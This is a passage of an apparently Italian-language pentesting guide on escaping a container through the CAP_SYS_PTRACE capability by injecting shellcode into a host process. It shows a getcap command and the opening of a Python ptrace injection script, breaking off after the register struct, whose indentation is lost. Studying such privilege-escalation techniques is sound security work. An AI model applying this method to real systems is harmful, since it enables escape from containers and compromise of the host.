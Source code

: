 ## CAP\_SYS\_PTRACE

**Questo significa che puoi sfuggire al contenitore iniettando uno shellcode all'interno di un processo in esecuzione nell'host.** Per accedere ai processi in esecuzione nell'host, il contenitore deve essere eseguito almeno con **`--pid=host`**.

**[`CAP_SYS_PTRACE`](https://man7.org/linux/man-pages/man7/capabilities.7.html)** concede la possibilità di utilizzare funzionalità di debug e tracciamento delle chiamate di sistema fornite da `ptrace(2)` e chiamate di attacco cross-memory come `process_vm_readv(2)` e `process_vm_writev(2)`. Sebbene potente per scopi di diagnostica e monitoraggio, se `CAP_SYS_PTRACE` è abilitato senza misure restrittive come un filtro seccomp su `ptrace(2)`, può compromettere significativamente la sicurezza del sistema. In particolare, può essere sfruttato per eludere altre restrizioni di sicurezza, in particolare quelle imposte da seccomp, come dimostrato da [proof of concept (PoC) come questo](https://gist.github.com/thejh/8346f47e359adecd1d53).

**Esempio con binario (python)**
```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_ptrace+ep
```

```python
import ctypes
import sys
import struct
# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html
PTRACE_POKETEXT = 4
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_ATTACH = 16
PTRACE_DETACH = 17
# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct
class user_regs_struct(ctypes.Structure):
_fields_ = [
("r15", ctypes.c_ulonglong),
("r14", ctypes.c_ulonglong),
("r13", ctypes.c_ulonglong),
("r12", ctypes.c_ulonglong),
("rbp", ctypes.c_ulonglong),
("rbx", ctypes.c_ulonglong),
("r11", ctypes.c_ulonglong),
("r10", ctypes.c_ulonglong),
("r9", ctypes.c_ulonglong),
("r8", ctypes.c_ulonglong),
("rax", ctypes.c_ulonglong),
("rcx", ctypes.c_ulonglong),
("rdx", ctypes.c_ulonglong),
("rsi", ctypes.c_ulonglong),
("rdi", ctypes.c_ulonglong),
("orig_rax", ctypes.c_ulonglong),
("rip", ctypes.c_ulonglong),
("cs", ctypes.c_ulonglong),
("eflags", ctypes.c_ulonglong),
("rsp", ctypes.c_ulonglong),
("ss", ctypes.c_ulonglong),
("fs_base", ctypes.c_ulonglong),
("gs_base", ctypes.c_ulonglong),
("ds", ctypes.c_ulonglong),
("es", ctypes.c_ulonglong),
("fs", ctypes.c_ulonglong),
("gs", ctypes.c_ulonglong),
]

```